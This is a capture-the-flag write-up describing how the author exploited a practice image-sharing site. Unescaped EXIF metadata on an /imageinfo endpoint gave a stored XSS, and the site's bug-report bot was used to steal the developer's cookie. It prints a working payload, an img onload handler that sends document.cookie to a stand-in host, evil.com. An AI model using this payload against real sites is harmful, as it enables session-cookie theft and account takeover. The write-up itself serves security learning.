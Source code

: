A link was provided to `https://imgr.pwn.institute/`, a not-yet-finished image sharing social networking site.

There were two pages available, `/login` and `/register`. The login form didn't accept any silly input (`admin:password`) so I registered an account and logged in.

It seemed the homepage was empty and the only functionality offered was to upload a profile picture on the `/profile` page, and submit a link to report any bugs to the developers on the `/report` page. I checked to see the login state appeared to be saved in a JWT cookie on the browser which was **not** set to HTTP only.

From this it seemed clear the solution was going to involve sending a link to the developers using the report feature, to a page that contained a XSS attack to leak their session cookie and thus allow me to login to the service as some form of elevated user. It seemed clear the only avenue I had of achieving a XSS was uploading some form of malicious image. Taking a look at the image upload form it appeared to allow anything to be uploaded as long as it had a JPG extension. I played around with possible uploads for a while, but of course I would need to link to a page that contained the image (assuming I could get an XSS from an image...) and at the moment it wasn't clear what that page would be as the `/profile` page would of course point to *their* profile not mine...

Looking around within the HTML code of the homepage I spotted the following HTML comment `<!-- todo: remove unused /imageinfo endpoint -->` which of course answered this question! This page allowed you to pass an `image id` in the URL which could be taken from the URL of the profile image after uploading, and appeared to output the metadata (*exif* data) of that image into the page... bingo!

I used `exiftool` to create a proof of concept JPG with a simple `<strong>hello world</strong>` value set as the image description within the metadata of the file, and sure enough after uploading the file and going to the `/imageinfo/<imageid>` endpoint, I saw a bold **hello world** in the page. With the proof of concept done the final steps were just to upload a suitable payload and submit the link to the developers.

I opted for a payload in the JPG's exif data that looked as so `<img src="https://github.com/favicon.ico" onload="this.src='//evil.com?c='+encodeURIComponent(document.cookie)">`, uploaded the image as my profile picture, noted the id of the uploaded image, went to `/imageinfo/<imageid>` and I saw my request fire out to my server with my cookie! I copied the url of the page and submitted it using the report feature. A few seconds later, I saw a request come in containing the flag - no need to log in with a cookie to get it after all, the developer's cookie was the flag.

